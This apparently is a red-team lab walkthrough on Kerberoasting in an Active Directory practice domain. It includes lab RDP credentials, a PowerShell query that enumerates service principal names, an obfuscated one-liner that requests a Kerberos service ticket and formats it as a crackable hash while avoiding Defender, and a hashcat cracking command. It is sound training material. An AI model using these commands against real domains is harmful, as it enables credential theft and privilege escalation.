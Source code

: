 # Advanced Kerberoasting


## Roast like a Ghost

The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.


Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  
wheel\felixb:P@ssW0rD!

1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.



```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

1. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/shadarlogoth.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

Requesting a TGS-REP ticket for the user with the SPN.

TGS flow is used becuase you already have a TGT because you are an authenticated domain user. So you can request tickets for any Service.

SPNs

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}}; $_spn.invoke("HOST/shadarlogoth.wheel.co", "svc-file");
```
Returns the RC4 HASH

![SPN Burn](./Kerb-burn-2.png)

1. Copy the output into a file named kerb.hash


1. If you wanted to use hashcat, yourcommand would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.

> You can view modes using: `hashcat -h | grep -i kerberos`




